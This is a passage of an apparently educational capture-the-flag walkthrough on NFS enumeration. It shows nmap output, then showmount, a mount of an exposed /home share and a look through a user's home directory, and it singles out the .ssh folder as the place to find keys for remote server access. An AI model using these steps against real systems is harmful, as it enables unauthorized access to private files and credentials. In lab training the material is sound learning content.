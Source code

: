 ```bash
35521/tcp open  unknown syn-ack
40451/tcp open  unknown syn-ack
52865/tcp open  unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 789.25 seconds
```
There are **7** ports open.

Which port contains the service we're looking to enumerate?
- **2049**.

Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?
```bash
$ showmount -e 10.10.56.114
Export list for 10.10.56.114:
/home *
```
It's **/home**.

Time to mount the share to our local machine! First, use `mkdir /tmp/mount` to create a directory on your machine to mount the share to. This is in the /tmp directory- so be aware that it will be removed on restart.

Then, use the `mount` command we broke down earlier to mount the NFS share to your local machine. Change directory to where you mounted the share- what is the name of the folder inside?
```bash
$ sudo mount -t nfs 10.10.56.114:home /tmp/mount/ -nolock
[sudo] password for kali: 
$ cd /tmp/mount   
$ ls
cappucino
```
It's **cappucino** directory.

Have a look inside this directory, look at the files. Looks like  we're inside a user's home directory...
```bash
$ ls -la cappucino 
total 36
drwxr-xr-x 5 kali kali 4096 Jun  4  2020 .
drwxr-xr-x 3 root root 4096 Apr 21  2020 ..
-rw------- 1 kali kali    5 Jun  4  2020 .bash_history
-rw-r--r-- 1 kali kali  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 kali kali 3771 Apr  4  2018 .bashrc
drwx------ 2 kali kali 4096 Apr 22  2020 .cache
drwx------ 3 kali kali 4096 Apr 22  2020 .gnupg
-rw-r--r-- 1 kali kali  807 Apr  4  2018 .profile
drwx------ 2 kali kali 4096 Apr 22  2020 .ssh
-rw-r--r-- 1 kali kali    0 Apr 22  2020 .sudo_as_admin_successful
```

Interesting! Let's do a bit of research now, have a look through the folders. Which of these folders could contain keys that would give us remote access to the server?
- **.ssh**.
